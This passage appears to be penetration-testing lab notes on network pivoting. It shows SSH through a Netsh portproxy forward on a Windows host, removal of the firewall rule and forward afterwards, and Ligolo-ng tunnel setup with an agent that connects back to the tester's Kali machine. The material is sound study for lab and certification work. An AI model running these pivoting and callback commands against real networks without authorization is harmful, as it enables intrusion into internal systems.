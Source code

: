 The port is open! We can now SSH to port 2222 on MULTISERVER03, as though connecting to port 22 on PGDATABASE01.

```bash
kali@kali:~$ ssh database_admin@192.168.50.64 -p2222
...
database_admin@pgdatabase01:~$
```

Great! We're SSH'd into PGDATABASE01 through a port forward set up on MULTISERVER03 using Netsh.

Using netsh advfirewall firewall, we can delete the rule, referencing it by its catchy name: "port_forward_ssh_2222":

```bash
C:\Users\Administrator>netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

Deleted 1 rule(s).
Ok.
```

We can also delete the port forward we created. This time we'll use the netsh interface subcontext to del the portproxy we created. We will reference the forwarding type (v4tov4) and the listenaddress and listenport we used when creating the rule, so Netsh can determine which rule to delete.

```bash
C:\Windows\Administrator> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```

Most Windows Firewall commands have PowerShell equivalents with commandlets like New-NetFirewallRule and Disable-NetFirewallRule. However, the netsh interface portproxy command doesn't. For simplicity, we've stuck with pure Netsh commands in this section. However, for a lot of Windows Firewall enumeration and configuration, PowerShell is extremely useful. You may wish to experiment with it while completing the exercises for this section.

In this section, we created a port forward on Windows using the Netsh command. We also created a firewall rule to allow inbound traffic on our listening port. We used these in conjunction to create a working port forward from the WAN interface of MULTISERVER03 to the SSH server of PGDATABASE01.

### Ligolo-ng

```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
/opt/proxy -selfcert
```

On the other machine:

```bash
agent.exe -connect 192.168.45.163:11601 -ignore-cert
```

On your machine:

```bash
session # select the session that you want to work with
1
```
